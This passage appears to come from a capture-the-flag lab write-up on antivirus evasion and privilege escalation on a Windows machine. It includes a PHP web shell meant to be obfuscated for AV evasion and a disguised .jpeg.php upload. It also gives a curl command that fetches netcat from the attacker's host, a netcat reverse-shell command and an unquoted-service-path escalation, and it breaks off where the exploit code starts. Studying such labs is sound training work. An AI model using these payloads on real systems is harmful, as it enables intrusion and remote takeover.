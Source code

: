   * Static detection - involves signature detection and byte (or string) matching.

  * Dynamic/heuristic/behavioural detection - checks how the file acts; this could be done by checking the flow of execution or actually executing the suspicious software inside a sandbox environment.

* Modern AV software usually use a combination of these two methods for malware detection.

* To exploit the vulnerability in the personal PC, we have to use the given PHP payload (different from usual on purpose for AV evasion):

```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

* We can now use any common [web obfuscator tool](https://www.gaijin.at/en/tools/php-obfuscator) for obfuscating the payload; the '$' symbols in output need to be escaped using backslash.

* Uploading the payload file in <http://10.200.81.100/resources>, we can see that it is uploaded successfully.

* We can check the payload on <http://10.200.81.100/resources/uploads/shell-sv.jpeg.php>; we have RCE now.

* By using the parameter 'wreath', we can execute commands; for ```systeminfo```, we need to check '/shell-sv.jpeg.php?wreath=systeminfo'.

* We can use ```whoami``` to view current username; we are user 'thomas'.

* Now, to get a full reverse shell, we can try to upload a [pre-compiled binary](https://github.com/int0x33/nc.exe/) of ```netcat``` and use that to get reverse-shell.

* Now, on the remote victim machine, we can check for ```curl.exe``` or ```certutil.exe``` by executing the command with the same name - we have both tools available.

* Execute the ```cURL``` command to download the netcat binary on the victim machine (double slashes for escaping):

```curl http://10.50.82.104/nc64-sv.exe -o c:\\windows\\temp\\nc-sv.exe```

* Now, after setting up the listener, we can execute the ```netcat``` binary from victim machine as a Powershell process using the following command:

```powershell.exe c:\\windows\\temp\\nc-sv.exe 10.50.82.104 443 -e cmd.exe```

* We get reverse shell on our listener; we can manually enumerate now as automated enumeration can be flagged by AV.

* ```whoami /priv``` shows ```SeImpersonatePrivilege``` is enabled; this can be exploited.

* Checking the non-default services on the personal machine, we can see that the service ```SystemExplorerHelpService``` contains spaces in the 'PathName' and is unquoted.

* This is vulnerable to 'Unquoted Service Path' attack; we can check under which account the service is running.

* As the service is running as 'LocalSystem', we can now check if we can modify the files in the directory of the vulnerable service.

* We have full control of the directory, thus we can go ahead with this attack.

* For creating the exploit, we have to install the ```mono``` dotnet core compiler for Linux, and this allows us to compile C# executables that can be run on Windows.

* We can now create our exploit which uses the ```netcat``` binary to launch another reverse-shell:
```